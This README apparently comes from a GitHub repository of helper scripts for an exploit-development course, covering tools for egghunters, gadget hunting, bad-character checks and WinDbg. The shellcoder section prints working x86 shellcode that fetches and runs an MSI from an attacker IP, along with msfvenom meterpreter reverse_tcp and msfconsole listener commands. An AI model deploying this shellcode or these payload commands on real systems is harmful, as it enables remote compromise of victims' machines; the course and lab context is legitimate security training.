

# osed-scripts
bespoke tooling for offensive security's Windows Usermode Exploit Dev course (OSED)

## Table of Contents

- [Standalone Scripts](#standalone-scripts)
    - [egghunter.py](#egghunterpy)
    - [find-gadgets.py](#find-gadgetspy)
    - [shellcoder.py](#shellcoderpy)
    - [install-mona.sh](#install-monash)
    - [attach-process.ps1](#attach-processps1)
- [WinDbg Scripts](#windbg-scripts)
    - [find-ppr.py](#find-pprpy)
    - [find-bad-chars.py](#find-bad-charspy)
    - [search.py](#searchpy)

## Standalone Scripts
### Installation:
pip3 install keystone-engine numpy

### egghunter.py

requires [keystone-engine](https://github.com/keystone-engine/keystone)

```
usage: egghunter.py [-h] [-t TAG] [-b BAD_CHARS [BAD_CHARS ...]] [-s]

Creates an egghunter compatible with the OSED lab VM

optional arguments:
  -h, --help            show this help message and exit
  -t TAG, --tag TAG     tag for which the egghunter will search (default: c0d3)
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to check for in final egghunter (default: 00)
  -s, --seh             create an seh based egghunter instead of NtAccessCheckAndAuditAlarm

```                        

generate default egghunter
```
./egghunter.py 
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: c0d3c0d3
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x63\x30\x64\x33\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"

```

generate egghunter with `w00tw00t` tag
```
./egghunter.py --tag w00t
[+] egghunter created!
[=]   len: 35 bytes
[=]   tag: w00tw00t
[=]   ver: NtAccessCheckAndAuditAlarm

egghunter = b"\x66\x81\xca\xff\x0f\x42\x52\x31\xc0\x66\x05\xc6\x01\xcd\x2e\x3c\x05\x5a\x74\xec\xb8\x77\x30\x30\x74\x89\xd7\xaf\x75\xe7\xaf\x75\xe4\xff\xe7"

```

generate SEH-based egghunter while checking for bad characters (does not alter the shellcode, that's to be done manually)
```
./egghunter.py -b 00 0a 25 26 3d --seh
[+] egghunter created!
[=]   len: 69 bytes
[=]   tag: c0d3c0d3
[=]   ver: SEH

egghunter = b"\xeb\x2a\x59\xb8\x63\x30\x64\x33\x51\x6a\xff\x31\xdb\x64\x89\x23\x83\xe9\x04\x83\xc3\x04\x64\x89\x0b\x6a\x02\x59\x89\xdf\xf3\xaf\x75\x07\xff\xe7\x66\x81\xcb\xff\x0f\x43\xeb\xed\xe8\xd1\xff\xff\xff\x6a\x0c\x59\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06\x58\x83\xc4\x10\x50\x31\xc0\xc3"

```

### find-gadgets.py

Finds and categorizes useful gadgets. Only prints to terminal the cleanest gadgets available (minimal amount of garbage between what's searched for and the final ret instruction).  All gadgets are written to a text file for further searching.

requires [rich](https://github.com/willmcgugan/rich) and [ropper](https://github.com/sashs/Ropper)


> today (3 june 2021) i found that ropper (and also ROPGadget) fail to find a gadget that rp++ finds (this led me to have a hard time with challenge #2, as there was an add gadget that ropper simply didn't see). 

> Since find-gadgets uses the ropper api, I updated find-gadgets to also pull in rp++ gadgets. Currently, the rp++ gadgets that ropper didn't find are added to the 'all gadgets' file (found-gadgets.txt by default), and aren't categorized in the 'clean gadgets' file (found-gadgets.txt.clean by default). So, the coverage is there, just not well integrated. I may or may not revisit it and get the rp++ output categorized as well.

```text
usage: find-gadgets.py [-h] -f FILES [FILES ...] [-b BAD_CHARS [BAD_CHARS ...]] [-o OUTPUT]

Searches for clean, categorized gadgets from a given list of files

optional arguments:
  -h, --help            show this help message and exit
  -f FILES [FILES ...], --files FILES [FILES ...]
                        space separated list of files from which to pull gadgets (optionally, add base address (libspp.dll:0x10000000))
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to omit from gadgets, e.g., 00 0a (default: empty)
  -o OUTPUT, --output OUTPUT
                        name of output file where all (uncategorized) gadgets are written (default: found-gadgets.txt)
```

find gadgets in multiple files (one is loaded at a different offset than what the dll prefers) and omit `0x0a` and `0x0d` from all gadgets



### shellcoder.py

requires [keystone-engine](https://github.com/keystone-engine/keystone)

Creates reverse shell with optional msi loader

```
usage: shellcode.py [-h] [-l LHOST] [-p LPORT] [-b BAD_CHARS [BAD_CHARS ...]] [-m] [-d] [-t] [-s]

Creates shellcodes compatible with the OSED lab VM

optional arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        listening attacker system (default: 127.0.0.1)
  -p LPORT, --lport LPORT
                        listening port of the attacker system (default: 4444)
  -b BAD_CHARS [BAD_CHARS ...], --bad-chars BAD_CHARS [BAD_CHARS ...]
                        space separated list of bad chars to check for in final egghunter (default: 00)
  -m, --msi             use an msf msi exploit stager (short)
  -d, --debug-break     add a software breakpoint as the first shellcode instruction
  -t, --test-shellcode  test the shellcode on the system
  -s, --store-shellcode
                        store the shellcode in binary format in the file shellcode.bin
```

```
❯ python3 shellcode.py --msi -l 192.168.49.88 -s
[+] shellcode created! 
[=]   len:   251 bytes                                                                                            
[=]   lhost: 192.168.49.88
[=]   lport: 4444                                                                                                                                                                                                                    
[=]   break: breakpoint disabled                                                                                                                                                                                                     
[=]   ver:   MSI stager
[=]   Shellcode stored in: shellcode.bin
[=]   help:
         Create msi payload:
                 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.49.88 LPORT=443 -f msi -o X
         Start http server (hosting the msi file):
                 sudo python -m SimpleHTTPServer 4444 
         Start the metasploit listener:
                 sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.49.88; set LPORT 443; exploit"
         Remove bad chars with msfvenom (use --store-shellcode flag): 
                 cat shellcode.bin | msfvenom --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f python -v shellcode

shellcode = b"\x89\xe5\x81\xc4\xf0\xf9\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x31\xc0\x66\xb8\x6c\x6c\x50\x68\x72\x74\x2e\x64\x68\x6d\x73\x76\x63\x54\xff\x55\x14\x89\xc3\x68\xa7\xad\x2f\x69\xff\x55\x04\x89\x45\x18\x31\xc0\x66\xb8\x71\x6e\x50\x68\x2f\x58\x20\x2f\x68\x34\x34\x34\x34\x68\x2e\x36\x34\x3a\x68\x38\x2e\x34\x39\x68\x32\x2e\x31\x36\x68\x2f\x2f\x31\x39\x68\x74\x74\x70\x3a\x68\x2f\x69\x20\x68\x68\x78\x65\x63\x20\x68\x6d\x73\x69\x65\x54\xff\x55\x18\x31\xc9\x51\x6a\xff\xff\x55\x10"           
****
```

### install-mona.sh

downloads all components necessary to install mona and prompts you to use an admin shell on the windows box to finish installation.

```
❯ ./install-mona.sh 192.168.XX.YY
[+] once the RDP window opens, execute the following command in an Administrator terminal:

powershell -c "cat \\tsclient\mona-share\install-mona.ps1 | powershell -"

[=] downloading https://github.com/corelan/windbglib/raw/master/pykd/pykd.zip
[=] downloading https://github.com/corelan/windbglib/raw/master/windbglib.py
[=] downloading https://github.com/corelan/mona/raw/master/mona.py
[=] downloading https://www.python.org/ftp/python/2.7.17/python-2.7.17.msi
[=] downloading https://download.microsoft.com/download/2/E/6/2E61CFA4-993B-4DD4-91DA-3737CD5CD6E3/vcredist_x86.exe
[=] downloading https://raw.githubusercontent.com/epi052/osed-scripts/main/install-mona.ps1
Autoselecting keyboard map 'en-us' from locale
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Core(warning): Certificate received from server is NOT trusted by this system, an exception has been added by the user to trust this specific certificate.
Connection established using SSL.
Protocol(warning): process_pdu_logon(), Unhandled login infotype 1
Clipboard(error): xclip_handle_SelectionNotify(), unable to find a textual target to satisfy RDP clipboard text request

```

### attach-process.ps1

Credit to discord user @SilverStr for the inspiration! 

One-shot script to perform the following actions:
- start a given service (if `-service-name` is provided)
- start a given executable path (if `-path` is provided)
- start windbg and attach to the given process
- run windbg commands after attaching (if `-commands` is provided)
- restart a given service when windbg exits (if `-service-name` is provided)

The values for `-service-name`, `-process-name`, and `-path` are tab-completable.

```
.\attach-process.ps1 -service-name fastbackserver -process-name fastbackserver -commands '.load pykd; bp fastbackserver!recvfrom'
```

```
\\tsclient\shared\osed-scripts\attach-process.ps1 -service-name 'Sync Breeze Enterprise' -process-name syncbrs
```

```
 \\tsclient\share\osed-scripts\attach-process.ps1 -path C:\Windows\System32\notepad.exe -process-name notepad                       
 ```

This script can be run inside a while loop for maximum laziness! Also, you can do things like `g` to start the process, followed by commands you'd like to run once the next break is hit. 

```
while ($true) {\\tsclient\shared\osed-scripts\attach-process.ps1 -process-name PROCESS_NAME -commands '.load pykd; bp SOME_ADDRESS; g; !exchain' ;}
```

Below, the process will load pykd, set a breakpoint (let's assume a pop-pop-ret gadget) and then resume execution. Once it hits the first access violation, it will run `!exchain` and then `g` to allow execution to proceed until it hits PPR gadget, after which it steps thrice using `p`, bringing EIP to the instruction directly following the pop-pop-ret. 

```
while ($true) {\\tsclient\shared\osed-scripts\attach-process.ps1 -process-name PROCESS_NAME -commands '.load pykd; bp PPR_ADDRESS; g; !exchain; g; p; p; p;' ;}
```

## WinDbg Scripts

all windbg scripts require `pykd`

run `.load pykd` then `!py c:\path\to\this\repo\script.py`

Alternatively, you can put the scripts in `C:\python37\scripts` so they execute as `!py SCRIPT_NAME`. 

Also, using `attach-process.ps1` you can add `-commands '.load pykd; g'` to always have pykd available.

### find-ppr.py

Credit to @netspooky for the rewrite of this script! 

Search for `pop r32; pop r32; ret` instructions by module name. By default it only shows usable addresses without bad chars defined in the BADCHARS list on line 6.
Printed next to the gadgets is an escaped little endian address for pasting into your shellcode.

    0:000> !py find-ppr_ns.py -b 00 0A 0D -m libspp libsync
    [+] searching libsync for pop r32; pop r32; ret
    [+] BADCHARS: \x00\x0A\x0D
    [+] libsync: Found 0 usable gadgets!
    [+] searching libspp for pop r32; pop r32; ret
    [+] BADCHARS: \x00\x0A\x0D
    [OK] libspp::0x101582b0: pop eax; pop ebx; ret ; \xB0\x82\x15\x10
    [OK] libspp::0x1001bc5a: pop ebx; pop ecx; ret ; \x5A\xBC\x01\x10
    ...
    [OK] libspp::0x10150e27: pop edi; pop esi; ret ; \x27\x0E\x15\x10
    [OK] libspp::0x10150fc8: pop edi; pop esi; ret ; \xC8\x0F\x15\x10
    [OK] libspp::0x10151820: pop edi; pop esi; ret ; \x20\x18\x15\x10
    [+] libspp: Found 316 usable gadgets!
    
    ---- STATS ----
    >> BADCHARS: \x00\x0A\x0D
    >> Usable Gadgets Found: 316
    >> Module Gadget Counts
       - libsync: 0 
       - libspp: 316 
    Done!

Show all gadgets with the `-s` flag. 

    0:000> !py find-ppr_ns.py -b 00 0A 0D -m libspp libsync -s
    [+] searching libsync for pop r32; pop r32; ret
    [+] BADCHARS: \x00\x0A\x0D
    [--] libsync::0x0096add0: pop eax; pop ebx; ret ; \xD0\xAD\x96\x00
    [--] libsync::0x00914784: pop ebx; pop ecx; ret ; \x84\x47\x91\x00
    ...
    [OK] libspp::0x10150e27: pop edi; pop esi; ret ; \x27\x0E\x15\x10
    [OK] libspp::0x10150fc8: pop edi; pop esi; ret ; \xC8\x0F\x15\x10
    [OK] libspp::0x10151820: pop edi; pop esi; ret ; \x20\x18\x15\x10
    [+] libspp: Found 316 usable gadgets!
    
    ---- STATS ----
    >> BADCHARS: \x00\x0A\x0D
    >> Usable Gadgets Found: 316
    >> Module Gadget Counts
       - libsync: 0 
       - libspp: 316 
    Done!

### find-bad-chars.py

Performs two primary actions:
- `--generate` prints a byte string useful for inclusion in python source code
- `--address` iterates over the given memory address and compares it with the bytes generated with the given constraints

```
usage: find-bad-chars.py [-h] [-s START] [-e END] [-b BAD [BAD ...]]
                         (-a ADDRESS | -g)

optional arguments:
  -h, --help            show this help message and exit
  -s START, --start START
                        hex byte from which to start searching in memory
                        (default: 00)
  -e END, --end END     last hex byte to search for in memory (default: ff)
  -b BAD [BAD ...], --bad BAD [BAD ...]
                        space separated list of hex bytes that are already
                        known bad (ex: -b 00 0a 0d)
  -a ADDRESS, --address ADDRESS
                        address from which to begin character comparison
  -g, --generate        generate a byte string suitable for use in source code
```

#### --address example
```
0:008> !py find-bad-chars.py --address esp+1 --bad 1d --start 1 --end 7f
0185ff55  01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10 
          01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10 
0185ff65  11 12 13 14 15 16 17 18 19 1A 1B 1C 1E 1F 20 21 
          11 12 13 14 15 16 17 18 19 1A 1B 1C 1E 1F 20 21 
0185ff75  22 23 24 25 00 00 FA 00 00 00 00 94 FF 85 01 F4 
          22 23 24 25 -- -- -- -- -- -- -- -- -- -- -- -- 
0185ff85  96 92 75 00 00 00 00 D0 96 92 75 E2 19 C1 58 DC 
          -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- 
0185ff95  FF 85 01 AF 4A 98 77 00 00 00 00 2B C9 03 8C 00 
          -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- --
...
```
#### --generate example
```
0:008> !py find-bad-chars.py --generate --bad 1d --start 1
[+] characters as a range of bytes
chars = bytes(i for i in range(1, 256) if i not in [1D])

[+] characters as a byte string
chars  = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0A\x0B\x0C\x0D\x0E\x0F\x10'
chars += b'\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1E\x1F\x20\x21'
chars += b'\x22\x23\x24\x25\x26\x27\x28\x29\x2A\x2B\x2C\x2D\x2E\x2F\x30\x31'
chars += b'\x32\x33\x34\x35\x36\x37\x38\x39\x3A\x3B\x3C\x3D\x3E\x3F\x40\x41'
chars += b'\x42\x43\x44\x45\x46\x47\x48\x49\x4A\x4B\x4C\x4D\x4E\x4F\x50\x51'
chars += b'\x52\x53\x54\x55\x56\x57\x58\x59\x5A\x5B\x5C\x5D\x5E\x5F\x60\x61'
chars += b'\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x71'
chars += b'\x72\x73\x74\x75\x76\x77\x78\x79\x7A\x7B\x7C\x7D\x7E\x7F\x80\x81'
chars += b'\x82\x83\x84\x85\x86\x87\x88\x89\x8A\x8B\x8C\x8D\x8E\x8F\x90\x91'
chars += b'\x92\x93\x94\x95\x96\x97\x98\x99\x9A\x9B\x9C\x9D\x9E\x9F\xA0\xA1'
chars += b'\xA2\xA3\xA4\xA5\xA6\xA7\xA8\xA9\xAA\xAB\xAC\xAD\xAE\xAF\xB0\xB1'
chars += b'\xB2\xB3\xB4\xB5\xB6\xB7\xB8\xB9\xBA\xBB\xBC\xBD\xBE\xBF\xC0\xC1'
chars += b'\xC2\xC3\xC4\xC5\xC6\xC7\xC8\xC9\xCA\xCB\xCC\xCD\xCE\xCF\xD0\xD1'
chars += b'\xD2\xD3\xD4\xD5\xD6\xD7\xD8\xD9\xDA\xDB\xDC\xDD\xDE\xDF\xE0\xE1'
chars += b'\xE2\xE3\xE4\xE5\xE6\xE7\xE8\xE9\xEA\xEB\xEC\xED\xEE\xEF\xF0\xF1'
chars += b'\xF2\xF3\xF4\xF5\xF6\xF7\xF8\xF9\xFA\xFB\xFC\xFD\xFE\xFF'
```

### search.py

just a wrapper around the stupid windbg search syntax
```
usage: search.py [-h] [-t {byte,ascii,unicode}] pattern

Searches memory for the given search term

positional arguments:
  pattern               what you want to search for

optional arguments:
  -h, --help            show this help message and exit
  -t {byte,ascii,unicode}, --type {byte,ascii,unicode}
                        data type to search for (default: byte)
```
```
!py \\tsclient\shared\osed-scripts\search.py -t ascii fafd
[=] running s -a 0 L?80000000 fafd
[*] No results returned
```
```
!py \\tsclient\shared\osed-scripts\search.py -t ascii ffff
[=] running s -a 0 L?80000000 ffff
0071290e  66 66 66 66 3a 31 32 37-2e 30 2e 30 2e 31 00 00  ffff:127.0.0.1..
00717c5c  66 66 66 66 48 48 48 48-03 03 03 03 f6 f6 f6 f6  ffffHHHH........
00718ddc  66 66 66 66 28 28 28 28-d9 d9 d9 d9 24 24 24 24  ffff((((....$$$$
01763892  66 66 66 66 66 66 66 66-66 66 66 66 66 66 66 66  ffffffffffffffff
...
```
